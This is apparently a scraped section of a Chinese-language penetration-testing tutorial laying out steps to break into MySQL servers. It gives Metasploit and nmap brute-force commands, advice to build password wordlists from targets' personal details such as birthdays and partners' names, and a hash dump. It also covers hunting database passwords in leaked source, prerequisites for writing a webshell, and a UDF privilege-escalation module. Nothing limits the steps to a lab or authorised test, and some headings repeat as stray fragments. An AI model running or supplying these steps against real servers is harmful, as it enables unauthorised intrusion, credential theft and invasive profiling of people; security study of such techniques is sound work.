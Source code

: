 

> 
<h3>1.2、第二步：获取服务器权限（爆破）</h3>
如果目标服务器开启3389端口，并且允许远程访问，可以采取爆破MySQL用户密码，获取MySQL的权限
<h4>MySQL 口令爆破</h4>
爆破成功的几率很低几乎为零，除非管理员用的是弱口令。通过社工可以提高一定成功率，通过收集各种信息，例如姓名、社交平台账号/昵称、手机号、生日、伴侣姓名/生日、职业等信息，通过信息生成针对性的字典，利用该字典进行爆破
<pre><code>1、metasploit相关模块爆破

use auxiliary/scanner/mysql/mysql_login
set RHOSTS 192.168.x.x
set pass_file /tmp/wordlists.txt    # 设置字典
set username root
run</code></pre>

<pre><code>2、nmap扫描并破解

nmap --script=mysql-brute.nse &lt;ip&gt; -p 3306

自定义账号、密码
nmap  --script=mysql-brute.nse userdb=/tmp/passdb.txt passdb=/tmp/pass.txt 192.168.1.13 -p 3306

检查mysql root空口令
nmap --script=mysql-empty-password.nse &lt;ip&gt;</code></pre>
<hr/>
<h4>哈希值爆破</h4>
<pre><code>auxiliary/scanner/mysql/mysql_hashdump

导出在当前登陆用户权限下可以查看账户的密码hash</code></pre>
<hr/>
<h4>泄露的源码中寻找数据库密码</h4>
<pre><code>网站的配置文件中大多含有数据库的连接配置，如数据库用户名、密码等配置信息

eg：config  connect等</code></pre>
<hr/>
<h4>向服务器写WebShell</h4>
<pre><code>前提：存在sql注入漏洞、当前用户具有写入权限、目标网站Web物理路径、secure_file_priv 选项支持数据导出

高版本的MYSQL添加了secure_file_priv，对导出文件做了限制：

1、输出目录路径应该secure_file_priv值一致，才能导出。

2、若其值为空，则无限制。

3、值为 NULL 时，表示不允许导入或导出</code></pre>


#### 哈希值爆破

---


#### 向服务器写WebShell

> 
<h3>1.3、第三步：提权</h3>
<h4>UDF提权（UDF提权）</h4>
<pre><code>use exploit/multi/mysql/mysql_udf_payload
set rhosts 192.168.x.x
set username root
set password root
run
